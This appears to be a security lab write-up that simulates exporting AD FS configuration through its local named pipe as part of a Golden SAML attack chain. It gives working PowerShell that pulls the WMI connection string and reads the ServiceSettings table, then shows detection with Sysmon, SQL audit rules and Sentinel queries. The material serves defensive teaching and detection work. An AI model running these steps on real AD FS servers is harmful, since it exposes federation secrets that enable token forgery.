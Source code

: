 # Export AD FS Configuration via a Local Named Pipe

Locally, the AD FS WID does not have its own management user interface (UI), but one could connect to it via a specific `named pipe`.
Depending on the WID version, one could use the following named pipes to connect to the AD FS database and query its configuration settings:

* **WID 2008**: `\\.\pipe\MSSQL$MICROSOFT##SSEE\sql\query`
* **WID 2012+**: `\\.\pipe\MICROSOFT##WID\tsql\query`

![](../../../../images/labs/GoldenSAML/exportADFSConfiguration/2021-06-01_export_adfs_configuration_named_pipe.jpg)

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)

## Simulation Steps

### Get Database Connection String via WMI Class

The named pipe information can be obtained directly from the `ConfigurationDatabaseConnectionString` property of the `SecurityTokenService` class from the WMI `ADFS namespace`.

1.  Connect to the AD FS server via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService
$conn = $ADFS.ConfigurationDatabaseConnectionString
$conn
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_02_get_database_string_wmi_class.png)

### Connect to the Database and Read Configuration

3. Use the connection string to connect to the AD FS database (WID) and run a SQL `SELECT` statement to export its configuration settings from the `IdentityServerPolicy.ServiceSettings` table.

```PowerShell
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
$settings
```

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_03_get_database_configuration.png)

## Detection

### Detect Named Pipe Connection

The connection to the AD FS database occurs via the `\\.\pipe\microsoft##wid\tsql\query` named pipe, and we could monitor for the connection to it with `Sysmon Event ID 18 (Pipe Connected)`.

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_04_event_sample.png)

#### Azure Sentinel Detection Rules

* [AD FS Database Named Pipe Connection Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSDBNamedPipeConnection.yaml)

### Detect AD FS SQL Statement to Export Service Settings

If we want to monitor for anyone interacting with the WID database via SQL statements, we would need to [create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15). We can use the [Microsot SQL Server PowerShell module](https://docs.microsoft.com/en-us/powershell/module/sqlserver/?view=sqlserver-ps) to connect to the database and create audit rules.

**Create SQL Audit Rules**:

1.  On the AD FS server (ADFS01), open PowerShell as Administrator.
2.  Install the SqlServer PowerShell Module.

```PowerShell
Install-Module -Name SqlServer
Import-module SqlServer
```

3.  Create SQL Audit Rules.

```PowerShell
Invoke-SqlCmd -ServerInstance '\\.\pipe\microsoft##wid\tsql\query' -Query "
USE [master]
GO
CREATE SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] TO APPLICATION_LOG WITH (QUEUE_DELAY = 1000, ON_FAILURE = CONTINUE)
GO
ALTER SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] WITH (STATE = ON)
GO
USE [ADFSConfigurationV4]
GO
CREATE DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] FOR SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] ADD (SELECT, UPDATE ON OBJECT::[IdentityServerPolicy].[ServiceSettings] BY [public])
GO
ALTER DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] WITH (STATE = ON)
GO
"
```

4.  Validate SQL Audit rule by running previous simulation steps either as the AD FS service account or local administrator:
* [Get Database Connection String via WMI Class](#get-database-connection-string-via-wmi-class)
* [Connect to database and run SQL statement to read configuration](#connect-to-database-and-run-sql-statement-to-read-configuration)

![](../../../../images/labs/goldemsaml/exportADFSTokenSigningCertificate/2021-05-19_04_adfs_sql_event_sample.png)

#### Azure Sentinel Hunting Queries

* [AD FS Database Local SQL Statements Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/SecurityEvent/ADFSDBLocalSqlStatements.yaml)

## Output

* AD FS Configuration Settings

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)
* [Create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15)
* [SQL Server Audit Action Groups and Actions](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/sql-server-audit-action-groups-and-actions?view=sql-server-ver15)